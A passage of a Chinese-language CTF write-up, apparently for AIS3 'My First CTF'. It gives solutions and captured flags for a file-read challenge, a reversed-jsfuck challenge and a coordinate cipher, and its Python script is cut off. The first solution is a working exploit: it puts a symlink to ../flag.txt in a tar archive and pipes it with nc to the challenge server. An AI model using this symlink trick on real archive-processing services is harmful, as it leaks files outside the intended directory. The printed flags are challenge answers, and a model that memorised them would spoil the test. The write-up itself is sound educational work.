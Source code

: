 ```bash
ln -s ../flag.txt guess.txt 
tar -cf test.tar guess.txt  
echo "10240\r\n$(cat test.tar)"|nc 60.250.197.227 11000
```

flag 出來了

```paintext
AIS3{Bu223r!!!!_I_c4n_s33_e_v_e_r_y_th1ng!!}
```

參見[安全客【CTF 攻略】DerbyCon 2017 CTF Write Up](https://www.anquanke.com/post/id/86987)

### Piquero [未解開]

點字，這題找了一些工具和圖表還是沒用出正確的 flag

## My First CTF 題組 Crypto

### Brontosaurus

jsfuck 反過來，題目檔名也瘋狂暗示反過來 `KcufsJ`，下面的 python 程式碼是把 `KcufsJ` 反轉，可以得到正確的 jsfuck 格式，並且把產出的結果拿去 javascript 直譯器執行即可得出 flag

``` bash
python -c 'print(open("KcufsJ").read()[::-1])'|node
```

上面 python 執行好之後可以得到 javascript ，執行該 javascript 就可以得到 flag

``` plaintext
AIS3{Br0n7Os4uru5_ch3at_3asi1Y}
```

### T-Rex

這題有點水，觀察後可以發現兩個字元是一種座標的表示方法。

只需要用 python 把 key 映射到陣列就可以產出結果即可。

``` python
#!/usr/bin/env python

array = [
"  V       F       Y       J       6       1".split(),
"       5       0       M       2       9       L".split(),
"       I       W       H       S       4       Q".split(),
"       K       G       B       X       T       A".split(),
"       E       3       C       7       P       N".split(),
"       U       Z       8       R       D       O".split()
]


index = {
        '!': 0,
        '@': 1,
        '#': 2,
        '$': 3,
        '%': 4,
        '&': 5
        }

dict1 = {}

for i in "!@#$%&":
    for j in "!@#$%&":
        key = j + i
        print(key)
```
